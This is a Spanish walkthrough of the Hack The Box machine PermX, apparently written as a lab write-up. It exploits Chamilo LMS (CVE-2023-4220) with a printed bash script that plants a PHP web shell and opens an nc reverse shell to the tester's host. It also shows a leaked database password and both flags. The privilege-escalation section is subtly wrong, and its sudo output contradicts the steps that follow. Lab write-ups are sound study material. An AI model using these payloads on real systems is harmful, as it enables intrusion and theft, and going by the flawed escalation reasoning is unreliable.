

## **Resumen**

`PermX` es una máquina Linux de dificultad facil con un sistema de gestión de aprendizaje vulnerable a Subidas de archivo sin restricciones a través de CVE-2023-4220. Esta vulnerabilidad se aprovecha para ganar un punto de apoyo en la máquina. Enumerando la máquina revela credenciales que conducen al acceso SSH. La configuración errónea de `sudo` se explota para obtener una shell privilegiada.

## **Fase de reconocimiento**

La fase de reconocimiento es la primera y más importante de la explotacion de un sistema. Se identifican los servicios de la maquina, puertos, sistemas operativos, etc. 

### Utilizando Nmap

```shell
sudo nmap -sS -p- --open -sCV -vvv -n -Pn --min-rate 5000 10.10.11.23 -oN targeted

   1   │ # Nmap 7.95 scan initiated Tue Nov  5 13:26:01 2024 as: nmap -sS -p- --open -sCV -vvv -n -Pn --min-rate 5000 -oN targeted 10.10.11.23
   2   │ Nmap scan report for 10.10.11.23
   3   │ Host is up, received user-set (0.15s latency).
   4   │ Scanned at 2024-11-05 13:26:01 -03 for 26s
   5   │ Not shown: 62022 closed tcp ports (reset), 3511 filtered tcp ports (no-response)
   6   │ Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
   7   │ PORT   STATE SERVICE REASON         VERSION
   8   │ 22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
   9   │ | ssh-hostkey: 
  10   │ |   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
  11   │ | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAyYzjPGuVga97Y5vl5BajgMpjiGqUWp23U2DO9Kij5AhK3lyZFq/rroiDu7zYpMTCkFAk0fICBScfnuLHi6NOI=
  12   │ |   256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
  13   │ |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8A41tX6hHpQeDLNhKf2QuBM7kqwhIBXGZ4jiOsbYCI
  14   │ 80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
  15   │ | http-methods: 
  16   │ |_  Supported Methods: GET HEAD POST OPTIONS
  17   │ |_http-title: Did not follow redirect to http://permx.htb
  18   │ |_http-server-header: Apache/2.4.52 (Ubuntu)
  19   │ Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
  20   │ 
  21   │ Read data files from: /usr/bin/../share/nmap
  22   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  23   │ # Nmap done at Tue Nov  5 13:26:27 2024 -- 1 IP address (1 host up) scanned in 26.15 seconds
```

El escaneo del objetivo con `Nmap` revela dos puertos TCP abiertos. En el puerto `22` se ejecuta `SSH`, y en el puerto `80`, un servidor web `Apache`. El servidor web intenta redirigir al dominio `permx.htb`, que añadimos a nuestro archivo hosts con el siguiente comando:

```shell
echo "10.10.11.23 permx.htb" | sudo tee -a /etc/hosts
```

### Pagina Web

Al visitar http://permx.htb , se nos presenta el sitio web de una plataforma de aprendizaje en línea


Podriamos tratar de enumerar los archivos de la pagina web con gobuster por ejemplo, pero les adelanto que por aqui no va la cosa. Lo que haremos es enumerar subdominios. 

```shell
gobuster vhost -u http://permx.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 100 -r --exclude-length 301 --append-domain

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://permx.htb
[+] Method:           GET
[+] Threads:          100
[+] Wordlist:         /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:       gobuster/3.6
[+] Timeout:          10s
[+] Append Domain:    true
[+] Exclude Length:   301
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: lms.permx.htb Status: 200 [Size: 19347]
Progress: 1102 / 4990 (22.08%)
```

Encontramos un subdominio lms.permx.htb, lo agregamos a nuestro archivo hosts y volvemos a visitar la pagina web.



Al visitar el subdominio, descubrimos que el subdominio lms está gestionado por `Chamilo` , un sistema de gestión del aprendizaje (`LMS`) gratuito y de código abierto diseñado para facilitar la educación en línea. Realizando una búsqueda en Google de vulnerabilidades que afectan a esta aplicación, vemos `CVE-2023-4220` y un blog (https://starlabs.sg/advisories/23/23-4220/) que detalla cómo explotar la vulnerabilidad. Esta CVE describe una vulnerabilidad que permite a atacantes no autenticados subir archivos y ejecutar código de forma remota. El problema se encuentra en el script bigUpload.php, donde los nombres de archivo no se comprueban correctamente, permitiendo la subida de web shells. 

> La version de Chamilo la puedes encontrar en `/README.md` o `/documentation/`

## Explotacion

Para realizar la exploitacion de esta vulnerabilidad podemos usar este exploit [CVE-2023-4220 RCE Chamilo 1.11.24](https://github.com/charlesgargasson/CVE-2023-4220) como apoyo. 

```bash
#!/bin/bash
HOST='http://lms.permx.htb'
CMD='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.157 4444 >/tmp/f'

URL_UPLD='main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
URL_FILE='main/inc/lib/javascript/bigupload/files/rce.php'

cat <<'EOF'>/tmp/rce.php
<?php
$a=popen(base64_decode($_REQUEST["aoOoy"]),'r');while($b=fgets($a,2048)){echo $b;ob_flush();flush();}pclose($a);
?>
EOF

curl -F 'bigUploadFile=@/tmp/rce.php' "$HOST/$URL_UPLD"
CMD=$(echo $CMD|base64 -w0| python3 -c "import urllib.parse,sys; print(urllib.parse.quote_plus(sys.stdin.read()))")
curl "$HOST/$URL_FILE?aoOoy=$CMD"
```
Luego de ejecutar el exploit, podemos obtener una shell como www-data.

```shell
❯ nc -nlvp 4444
Connection from 10.10.11.23:51632
bash: cannot set terminal process group (1190): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

Enumerando el sistema, nos encontramos con el archivo
`/var/www/chamilo/app/config/configuration.php` , que contiene las credenciales de la base de datos.

```shell
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | grep db_user 
$_configuration['db_user'] = 'chamilo';
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | grep db_password
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
www-data@permx:/var/www/chamilo/app/config$ 
```

Siguiendo con la enumeración de usuarios, vemos a mtz, que tiene un directorio home y se le asigna un
shell estándar, lo que indica que podría utilizarse para iniciar sesión.

```shell
❯ ssh mtz@permx.htb

The authenticity of host 'permx.htb (10.10.11.23)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'permx.htb' (ED25519) to the list of known hosts.
mtz@permx.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

...

Last login: Tue Nov  5 15:52:37 2024 from 10.10.16.71
mtz@permx:~$ 
```

Ya podemos obtener la flag del usuario. 

```shell
mtz@permx:~$ cat user.txt 
586ecadf83fe12a076730f0562fad00f
mtz@permx:~$
```

### Escalada de privilegios

Al comprobar los permisos sudo para el usuario `mtz`, vemos que el usuario mtz tiene permiso para
ejecutar el script `/opt/acl.sh` como cualquier usuario `ALL`, sin que se le pida una contraseña `NOPASSWD`

```shell
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
    (ALL : ALL) NOPASSWD: ALL
    (ALL : ALL) NOPASSWD: ALL
mtz@permx:~$
```

Podemos ver el script para ver que es lo que hace. 

```shell
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash
if [ "$#" -ne 3 ]; then
/usr/bin/echo "Usage: $0 user perm file"
exit 1
fi
user="$1"
perm="$2"
target="$3"
if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
/usr/bin/echo "Access denied."
exit 1
fi
# Check if the path is a file
if [ ! -f "$target" ]; then
/usr/bin/echo "Target must be a file."
exit 1
fi
/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
Vemos que el script comprueba primero si el número de argumentos pasados es igual a 3; si no, muestra un mensaje y sale. Si se pasan los tres argumentos, el script comprueba si el archivo de destino se encuentra dentro del directorio `/home/mtz/` y no contiene ningún `«..»` en su ruta, lo que ayuda a evitar el cruce de directorios. Si el archivo de destino no supera esta comprobación, deniega el acceso. Por último, el script utiliza `setfacl` para modificar la Lista de Control de Acceso `ACL` del archivo, permitiendo que el usuario especificado tenga el permiso definido en el archivo de destino. Este comando se ejecuta con privilegios elevados debido al uso de `sudo`.

Para conseguir escalar hasta el usuario root, lo que haremos sera inyectar un comando malicioso. Por ejemplo: 

```shell
sudo /opt/acl.sh "$(echo 'root ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers)" rw /home/mtz/user.txt
```

Este comando intentará agregar una línea al archivo /etc/sudoers que permite al usuario root ejecutar cualquier comando sin contraseña.

Si el comando se ejecuta correctamente, deberías poder obtener acceso root ejecutando:

```shell
mtz@permx:~$ sudo /opt/acl.sh "$(echo 'root ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers)" rw /home/mtz/user.txt
mtz@permx:~$ sudo su
root@permx:/home/mtz#
```

En este punto ya podemos leer la flag dentro de /root/root.txt

```shell
root@permx:/home/mtz# cat /root/root.txt
25c68786f673b0b4ad34aaa082b1c1f1
root@permx:/home/mtz#
```